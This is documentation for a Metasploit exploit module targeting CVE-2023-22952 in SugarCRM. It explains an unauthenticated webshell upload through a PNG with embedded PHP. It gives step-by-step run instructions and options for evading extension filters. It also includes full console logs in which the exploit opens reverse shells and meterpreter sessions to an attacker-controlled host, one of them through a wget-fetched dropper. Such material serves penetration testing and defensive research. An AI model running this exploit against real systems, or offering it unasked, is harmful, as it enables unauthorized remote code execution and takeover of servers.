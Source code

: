 ## Vulnerable Application

This module exploits CVE-2023-22952, a Remote Code Execution (RCE) vulnerability in SugarCRM 11.0 Enterprise,
Professional, Sell, Serve, and Ultimate versions prior to `11.0.5` and SugarCRM 12.0 Enterprise, Sell, and
Serve versions prior to `12.0.2`.

The vulnerability occurs due to a lack of appropriate validation when uploading a malicious `PNG` file with
embedded PHP code to the `/cache/images/` directory on the web server using the vulnerable endpoint
`/index.php?module=EmailTemplates&action=AttachFiles`. Once uploaded to the server, depending on server configuration,
the attacker can access the malicious PNG file via HTTP or HTTPS, thereby executing the malicious PHP code and
gaining access to the system.

This vulnerability does not require authentication because there is a missing authentication check in the
`loadUser()` method in `include/MVC/SugarApplication.php`. After a failed login, the session does not get
destroyed and hence the attacker can continue to send valid requests to the application. See this
[AttackerKB Article](https://attackerkb.com/topics/E486ui94II/cve-2023-22952) for more details.

Because of this, any remote attacker, regardless of authentication, can exploit this vulnerability to gain
access to the underlying operating system as the user that the web services are running as (typically `www-data`).

Installing a vulnerable test bed requires a Linux machine with the vulnerable SugarCRM software loaded.
Follow instructions [here](https://support.sugarcrm.com/Documentation/Sugar_Versions/11.0/Ent/Installation_and_Upgrade_Guide/),
but you need to be registered as a sugarcrm customer in order to access the software.
This module has been tested against a SugarCRM installation with the specifications listed below:

* SugarCRM Enterprise Edition
* Version: `11.0.4`
* Build: `300`
* Linux OS: Debian 8.6

## Verification Steps

1. `use exploit/multi/http/sugarcrm_webshell_cve_2023_22952`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension of the webshell.
This is handy if you want to test the webshell upload and execution with different file extensions (.phtml, .php7, .inc)
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - PHP Meterpreter session
```
msf > use exploit/multi/http/sugarcrm_webshell_cve_2023_22952
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > options

Module options (exploit/multi/http/sugarcrm_webshell_cve_2023_22952):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       SugarCRM base url
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
   WEBSHELL                    no        The name of the webshell with extension to trick the parser like .phtml, .phar, etc. Webshell
                                         name will be randomly generated if left unset.


   When TARGET is not 0:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or
                                        0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP



View the full module info with the info, or info -d command.

msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 0
target => 0
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.100.180
[+] Deleted cXSbMSaTtcnn.phtml
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-02-15 14:11:23 +0000

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Meterpreter  : php/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - bash reverse shell
```
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 1
target => 1
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted RPXrYGLCvGjL.phar
[*] Command shell session 2 opened (127.0.0.1:4444 -> 127.0.0.1:52584) at 2023-01-19 19:14:56 +0000

whoami
www-data
exit
```

### SugarCRM 11.0.4 Enterprise Build 300 on Debian 8.6 - Linux Meterpreter session
```
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lhost 192.168.100.254
lhost => 192.168.100.254
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set lport 4444
lport => 4444
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > set target 2
target => 2
msf exploit(multi/http/sugarcrm_webshell_cve_2023_22952) > exploit

[*] Started reverse TCP handler on 192.168.100.254:4444
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.100.254:8080/aLYDt2
[*] Client 127.0.0.1 (Wget/1.16 (linux-gnu)) requested /aLYDt2
[*] Sending payload to 127.0.0.1 (Wget/1.16 (linux-gnu))
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted ZxGTSVGsOUZs.phtml
[*] Meterpreter session 3 opened (127.0.0.1:4444 -> 127.0.0.1:43076) at 2023-01-19 19:16:07 +0000
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : sugarcrm
OS           : Debian 8.6 (Linux 2.6.32)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: www-data
meterpreter > exit
```

## Limitations
No `check` method.
